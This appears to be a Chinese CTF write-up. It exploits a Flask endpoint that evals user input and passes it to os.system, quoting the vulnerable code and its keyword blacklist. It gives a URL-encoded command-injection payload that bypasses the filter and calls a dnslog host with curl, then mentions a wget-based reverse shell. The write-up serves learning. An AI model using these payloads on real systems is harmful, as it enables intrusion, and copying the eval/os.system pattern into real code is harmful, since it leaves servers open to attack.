 ```php
    return render_template("index.html")

@app.route("/calc",methods=['GET'])
def calc():
    ip = request.remote_addr
    num = request.values.get("num")
    log = "echo {0} {1} {2}> ./tmp/log.txt".format(time.strftime("%Y%m%d-%H%M%S",time.localtime()),ip,num)
    
    if waf(num):
        try:
            data = eval(num)
            os.system(log)
        except:
            pass
        return str(data)
    else:
        return "waf!!"

if __name__ == "__main__":
    app.run(host='0.0.0.0',port=5000)  
```
这里就是传了一个num参数进去，这里如果参数通过了waf，那么就会计算结果，并且system函数执行log，猜测这里是通过注入一些危险的命令去执行
这里有一个waf，过滤了很多东西
```php
blacklist = ['import','(',')',' ','_','|',';','"','{','}','&','getattr','os','system','class','subclasses','mro','request','args','eval','if','subprocess','file','open','popen','builtins','compile','execfile','from_pyfile','config','local','self','item','getitem','getattribute','func_globals','__init__','join','__dict__']
```
但是由于命令执行没有回显，所以用dnslog，这样操作可以绕过
空格用%09代替
直接注入代码会报错，因为num代码会走进eval造成报错，所以需要加一个#作为注释符来绕过

![在这里插入图片描述](https://img-blog.csdnimg.cn/96fbafcd55e44bb2abcd1c5d0e88b2a8.png)



```php
1%23%60curl%09zeej2v.dnslog.cn%60
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/cd8b3fd229434f81bda513713bedeca8.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBAaHVhbWFuZ2dn,size_17,color_FFFFFF,t_70,g_se,x_16)

可以成功执行命令

![在这里插入图片描述](https://img-blog.csdnimg.cn/f8a1c06abef24aa5815fcaee7c134e96.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBAaHVhbWFuZ2dn,size_20,color_FFFFFF,t_70,g_se,x_16)

试着反弹shell，直接执行弹shell不行，很多被过滤了，所以我们利用wget去传命令上去执行

![在这里插入图片描述](https://img-blog.csdnimg.cn/afa8306a958b47f799c36d8f39169cec.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBAaHVhbWFuZ2dn,size_20,color_FFFFFF,t_70,g_se,x_16)



![在这里插入图片描述](https://img-blog.csdnimg.cn/d6faed214cba4f749b902efbef4d8a6a.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBAaHVhbWFuZ2dn,size_20,color_FFFFFF,t_70,g_se,x_16)

![在这里插入图片描述](https://img-blog.csdnimg.cn/87a13fa402f64214b1f1e2d84d39e0f0.png)

![在这里插入图片描述](https://img-blog.csdnimg.cn/44185ab2ce9c40848ea6bb48ad43fbe6.png)

![在这里插入图片描述](https://img-blog.csdnimg.cn/5541c7114d1f44c6993a9e0cfbed42e9.png)


